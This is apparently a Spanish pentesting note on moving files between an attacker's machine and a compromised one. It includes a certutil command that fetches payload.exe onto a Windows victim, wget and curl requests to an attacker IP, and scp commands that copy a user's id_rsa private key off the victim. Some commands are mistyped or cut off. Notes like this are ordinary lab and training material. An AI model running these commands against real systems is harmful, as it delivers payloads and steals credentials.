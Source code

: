 # From Linux to Windows

1. Creamos un servidor simple con python en la ruta donde esté el fichero que queremos compartir: `python -m http.serve 80`
2. En la máquina comprometida windows, usamos el siguiente comando para hacer una petición:
		
	![[Pasted image 20250210011041.png]]
`certutil -urlcache -f http://ip/payload.exe payload.exe`

# From Linux to Linux

1. Creamos servidor simple con python.
	`python -m http.serve 80`
2. Hacemos una petición desde la máquina víctima:
	2.1 wget http://ip-atacante/file.txt
	2.2 curl -X GET http://



NOTA : Con Python version<3 usar :
python -m SimpleHTTPServer 8000

## Transfer files via SSH
#### Transferir a la máquina atacante
`
`scp <user>@<ip>:<path_to_file> <path where store file>`
Example:
`scp student@10.10.10.1:~/.ssh/id_rsa .` -> Esto descarga en el directorio actual la id_rsa del home del usuario student.
``
#### Transferir a maquina victima
```bash
scp -P [puerto] [archivo_local_a_transferir] [usuario]@[host]:[ruta_remota_destino]
```

Ejemplo:

```bash
scp -P 39714 [archivo_local_a_transferir] user1@83.136.253.59:/tmp/[nombre_en_destino]
```

### **3️⃣ Transferir directorios completos**

Para copiar una carpeta y todo su contenido, añade la opción `-r` (**recursivo**):

**Desde la víctima hacia la atacante:**

bash

`scp -r [usuario]@[ip_remota]:[ruta_directorio_remoto] [ruta_local_destino]`

Ejemplo:

bash

`scp -r student@10.10.10.1:/var/www/html .`

**Desde la atacante hacia la víctima:**

bash

`scp -P [puerto] -r [directorio_local] [usuario]@[ip_remota]:[ruta_remota_destino]`

Ejemplo:

bash

`scp -P 39714 -r tools user1@83.136.253.59:/opt/tools`


	


		
